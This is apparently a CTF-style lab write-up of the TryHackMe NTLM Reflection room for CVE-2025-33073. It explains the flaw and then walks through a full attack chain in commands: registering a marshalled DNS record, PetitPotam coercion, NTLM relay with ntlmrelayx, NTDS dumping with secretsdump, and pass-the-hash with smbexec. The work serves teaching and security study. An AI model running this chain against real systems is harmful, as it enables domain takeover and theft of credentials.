









# NTLM Reflection - CVE-2025-33073

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

**CVE-2025-33073**  critical privilege escalation vulnerability that bypasses NTLM reflection mitigations. Also referred to as the *Reflective Kerberos Relay Attack* or *NTLM Reflection SMB Flaw*.


## Attack Chain

| Step |    User / Access   | Technique Used                         | Result                                                                                                                      |
| :--: | :----------------: | :------------------------------------- | :-------------------------------------------------------------------------------------------------------------------------- |
|   1  |        `N/A`       | **Port & AD Service Enumeration**      | nmap revealed AD services (DNS, LDAP, Kerberos, SMB, RDP) on `TARGET_IP` and identified the domain `reflection.thm`.        |
|   2  |       `sawan`      | **SMB Auth & Host Mapping**            | Valid lab creds (`sawan:R3flect0r`) used to confirm SMB connectivity and ability to register DNS records.                   |
|   3  |       `sawan`      | **DNS Marshalled Record Registration** | Registered `localhost1UWhRCA...` pointing at attacker  crafted record decodes to a local hostname when processed by LSA.   |
|   4  |     `Attacker`     | **PetitPotam / MS-EFSRPC Coercion**    | Coerced a SYSTEM service (lsass) on the target to authenticate to the attacker's listener.                                  |
|   5  | `SYSTEM` (coerced) | **Local NTLM Authentication Trigger**  | SMB client treats the connection as local (SspIsTargetLocalhost → TRUE) and performs token insertion rather than challenge. |
|   6  |     `Attacker`     | **NTLM Relay (ntlmrelayx)**            | Relayed SYSTEM authentication back to the target SMB service; `ntlmrelayx` extracted SAM/credentials.                       |
|   7  |     `Attacker`     | **Interactive SMB / Shell**            | Using `-i` or `-socks` with `ntlmrelayx` opened an SMB client shell or socks proxy for further actions.                     |
|   8  |     `Attacker`     | **NTDS/Secrets Extraction**            | Via SOCKS + `impacket-secretsdump -no-pass -just-dc -use-vss` extracted NTDS.dit/NTLM hashes for domain accounts.           |
|   9  |     `Attacker`     | **Pass-the-Hash / smbexec**            | Used extracted hashes with `smbexec.py` or `evil-winrm` to get an elevated shell (svc/Administrator) on the DC.             |
|  10  |   `Administrator`  | **Filesystem / Flag Access**           | With elevated privileges read sensitive locations (SYSVOL, NTDS backups, root flag).                                        |
|  11  |     `Attacker`     | **Kerberos variant / Subkey abuse**    | Optionally abused Kerberos subkey storage to obtain SYSTEM tokens via Kerberos reflection techniques.  


## Introduction

CVE-2025-33073 is a critical privilege escalation vulnerability discovered in Windows systems that bypasses existing NTLM reflection mitigations. This vulnerability allows authenticated attackers to gain SYSTEM-level privileges on any Windows machine that doesn't enforce SMB signing.

## Historical context: the NTLM reflection problem

NTLM reflection attacks have plagued Windows systems for nearly two decades. NTLM reflection is a special type of NTLM authentication relay attack where the authentication is relayed back to the same machine from which it originated.

Microsoft has released a series of mitigations over the years, but researchers have continued to find bypasses:

* **MS08-068 (2008)**  Prevented SMB-to-SMB NTLM reflection.
* **MS09-013 (2009)**  Fixed HTTP-to-SMB reflection.
* **MS15-076 (2015)**  Patched DCOM-to-DCOM reflection.

Despite these fixes, creative workarounds continue to emerge as researchers study the exact behavior of the mitigations.


## Understanding the core vulnerability

The vulnerability exists in how the Windows Local Security Authority (LSA) and the SMB client determine whether to use *local* NTLM authentication versus *standard* NTLM authentication.

### Standard NTLM authentication (overview)

1. Client sends `NTLM_NEGOTIATE` message.
2. Server responds with `NTLM_CHALLENGE` containing a random challenge.
3. Client encrypts the challenge with their password hash and sends `NTLM_AUTHENTICATE`.
4. Server validates the response.

### Local NTLM authentication (optimization)

Local NTLM authentication is a special optimization used when client and server are on the same machine. The flow is:

1. Client sends `NTLM_NEGOTIATE` with workstation and domain names.
2. Server recognizes the request as local and sets a **Negotiate Local Call** flag.
3. A server context is created and the client places its security token directly into that server context.
4. Authentication completes **without** the usual challenge-response exchange.

The vulnerability abuses this optimization and the logic used to detect "local" targets.


## Exploitation mechanism  step-by-step

### Step 1  DNS record manipulation

The attack begins by creating a malicious DNS record containing *marshalled* target information. This technique  originally documented by James Forshaw  encodes additional data into DNS names.

Example DNS names used in the attack:

```
srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

Each name contains a hostname prefix (`srv1` or `localhost`) and appended marshalled data (`1UWhRCA...`).

### Step 2  target name processing

When Windows processes the target name for authentication, it constructs a service principal like:

```
cifs/srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

The LSA function `LsapCheckMarshalledTargetInfo` strips the marshalled data, leaving `cifs/srv1`. The extracted hostname (`srv1`) is used for localhost detection.

### Step 3  localhost detection logic

The `SspIsTargetLocalhost` function compares the extracted hostname against:

* The machine's FQDN (e.g., `SRV1.REFLECTION.THM`)
* The machine's hostname (e.g., `SRV1`) ← **match found**
* The literal string `localhost`

A match causes Windows to treat the authentication as a local authentication request.

### Step 4  authentication coercion

The attacker coerces a SYSTEM service (typically `lsass.exe`) to authenticate to their controlled server. Tools like **PetitPotam** exploit the MS-EFSRPC protocol to force authentication without user interaction.

### Step 5  local authentication bypass

When the SMB client connects to the attacker-controlled server:

* Client requests authentication to the (spoofed) target.
* `msv1_0!SspIsTargetLocalhost` returns `TRUE` (target appears local).
* Local-auth conditions are met (no explicit credentials, not a NULL session).
* Client sends `NTLM_NEGOTIATE` with workstation and domain names.
* Attacker's server sets the `Negotiate Local Call` flag and inserts the SYSTEM token into the server context.

### Step 6  token relay and impersonation

The attacker's relay server receives the SYSTEM authentication from the coerced service and relays it back to the victim machine over SMB. Because the server accepted the authentication as local, the attacker gains a SYSTEM context on the target and can perform privileged actions (e.g., dump SAM hashes, execute arbitrary code).


## Kerberos reflection component

The vulnerability also impacts Kerberos authentication via a subkey-based mechanism.

Key points:

* `KerbMakeKeyEx` generates a random AES subkey.
* If the authenticated principal is `NT AUTHORITY\SYSTEM`, `KerbCreateSKeyEntry` stores the subkey and token.
* Server verifies the client name equals the machine name; `KerbDoesSKeyExist` confirms the subkey belongs to SYSTEM.
* `KerbMakeTokenInformationV3` creates a SYSTEM token with local admin privileges.

This enables a Kerberos-based variant of the reflection/escalation technique.


## Lab / Practical notes

> **Important**: In lab scenarios you may be given low-privileged credentials to start with. For this machine the following account is available and can access SMB:

```
Username: sawan
Password: R3flect0r
```

### Nmap results

Run a full aggressive scan:

```
 nmap -sCV -T5 TARGET_IP
```

Example output (abridged):

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds?
...
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=REFLECTION.reflection.thm
|_Not valid before: 2025-09-13T14:39:19
|_Not valid after:  2026-03-15T14:39:19
| rdp-ntlm-info:
|   Target_Name: REFLECTION0
|   NetBIOS_Domain_Name: REFLECTION0
|   NetBIOS_Computer_Name: REFLECTION
|   DNS_Domain_Name: reflection.thm
|   DNS_Computer_Name: REFLECTION.reflection.thm
|   Product_Version: 10.0.20348
|_  System_Time: 2025-10-22T10:19:38+00:00
```



### Coercion check

Check SMB signing and coercion status with NetExec:

```
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus
```



### DNS registration (marshalled record)

Add the marshalled DNS record pointing at the attacker:

```
 python3 dnstool.py -u 'reflection.thm'\\'sawan' -p 'R3flect0r' --action add \
  --record localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  --data ATTACKER_IP TARGET_IP
```



Verify the record exists:

```
 python3 dnstool.py -u 'reflection.thm'\\'sawan' -p 'R3flect0r' --action query \
  --record localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  --data ATTACKER_IP TARGET_IP

# or using dig
 dig localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.reflection.thm @TARGET_IP
```



### Dumping the SAM hashes (NTLM relay)

Start `ntlmrelayx` to intercept and relay NTLM authentication back to the target SMB service:

```
 impacket-ntlmrelayx -t smb://TARGET_IP -smb2support --no-http-server
```



Coerce the host to authenticate using NetExec + PetitPotam:

```
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus \
  -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```


When successful, `ntlmrelayx` should extract SAM hashes from the target host. Use the Administrator NTLM hash as needed for lab questions.


## Bonus  cracking hashes

While not strictly necessary for domain-controller targets, you can crack dumped hashes offline (e.g., with `hashcat`) to obtain plaintext local admin passwords.


## Accessing the filesystem (post-exploit)

Because the target in this lab is a domain controller, local SAM hashes alone are not enough to fully authenticate to the machine. Re-run `ntlmrelayx` with an interactive SMB shell:

```
 impacket-ntlmrelayx -t smb://TARGET_IP -smb2support -i
```




Use `netexec` again with the same `LISTENER` value to coerce authentication. If successful, `ntlmrelayx` will open an SMB client shell (e.g., on `127.0.0.1:11000`). Connect with `nc` and browse the file system with administrative privileges.




## Dumping credentials from the Domain Controller (NTDS.dit)

To extract domain credentials from a DC, create a SOCKS proxy for relayed sessions and use `impacket-secretsdump` through the proxy to leverage VSS:

```
 impacket-ntlmrelayx -t smb://TARGET_IP -smb2support -socks

# then coerce authentication as before
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus \
  -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA

# use proxychains with port 1080 (socks4)
 proxychains4 -q impacket-secretsdump TARGET_IP -no-pass -just-dc -use-vss
```

The output can include NTLM hashes for domain accounts  use these for lab questions requiring the SVC account hash or other domain credentials.


## Remote access with `impacket-smbexec`

Open a remote elevated shell using an extracted hash (example format):

```
 python3 /usr/share/doc/python3-impacket/examples/smbexec.py \
  -hashes XXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXXX \
  -u svc TARGET_IP
```




Use `whoami` to confirm `SYSTEM` or elevated context.



## How it works  short recap

1. Craft a marshalled DNS name that decodes to a local hostname.
2. Register that DNS name to point at the attacker-controlled server.
3. Coerce a SYSTEM service on the target (e.g., via PetitPotam) to authenticate to the attacker.
4. The SMB client treats the request as a *local* authentication and performs token insertion instead of challenge-response.
5. The attacker relays the received SYSTEM authentication back to the target and gains SYSTEM privileges.
6. A Kerberos variant exists that abuses stored subkeys to similarly obtain SYSTEM tokens.


## References & further reading

* Synacktiv: *NTLM Reflection is dead, long live NTLM Reflection  In-depth analysis of CVE-2025-33073* (research / writeup) - https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025
* TryHackMe: NTLM Reflection room (lab): https://tryhackme.com/room/ntlmreflectioncve202533073?sharerId=62051b3adc1733004ac877ef


*Prepared as a concise technical writeup suitable for a lab report or CTF-style writeup.*